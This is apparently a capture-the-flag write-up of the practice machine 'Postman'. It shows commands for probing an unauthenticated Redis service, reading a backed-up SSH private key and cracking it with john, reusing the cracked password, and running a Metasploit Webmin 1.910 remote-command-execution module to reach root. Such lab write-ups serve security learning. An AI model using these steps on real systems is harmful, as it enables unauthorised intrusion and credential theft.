

## Postman | IP: 10.10.10.160


### Enumeration

##### Services

- 22
	+ OpenSSH 7.6p1 Ubuntu
- 80
	+ Apache httpd 2.4.29 ((Ubuntu))
- 6379 
	+ Redis key-value store 4.0.9
		* **Redis 4.x / 5.x - Unauthenticated Code Execution (Metasploit)**
- 10000
	+ MiniServ 1.910 (Webmin httpd)
		* **Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)**


### Getting shell as redis@ip

**Simply follow - https://book.hacktricks.xyz/pentesting/6379-pentesting-redis**

We can connect to the redis server directly with telnet,

```
root@kali:~# telnet 10.10.10.160 6379                                          
Trying 10.10.10.160...                                                         
Connected to 10.10.10.160.                                                     
Escape character is '^]'.
quit                                                                           
+OK                                                                            
Connection closed by foreign host. 
```

> msf module: https://www.exploit-db.com/exploits/47195

> Custom exploitation: https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html

### Owning user

*Enumeration is key.*

```
redis@ip:~$ cat /opt/id_rsa.bak
```

Pass it to `ssh2john.py` and then to john, we get `computer2008` as cracked password.

> Note: We aren’t allowed to connect as Matt via SSH. Turns out that there is a `Denyusers Matt` directive in the `/etc/ssh/sshd_config` file, which prohibits Matt from logging in via SSH. 


```
redis@ip:~$ su Matt # Enter password on prompt
```

We get shell as `Matt`,

```
Matt@Postman:~$ cat /home/Matt/user.txt 
[-------------------------]a2f3c
```

### Owning Root

We can login using the same credentials `Matt:computer2008` on the Webmin portal running on port 10000.

> Manual Exploitation: https://github.com/Dog9w23/Webmin-1.910-Exploit/blob/master/Webmin%201.910%20-%20Remote%20Code%20Execution%20using%20BurpSuite

> msf module: https://www.exploit-db.com/exploits/46984


```
msf5> use exploit/linux/http/webmin_packageup_rce
msf5> run # after setting all options
whoami
root
cat /root/root.txt
[-------------------------]ddce
```

### Trophy

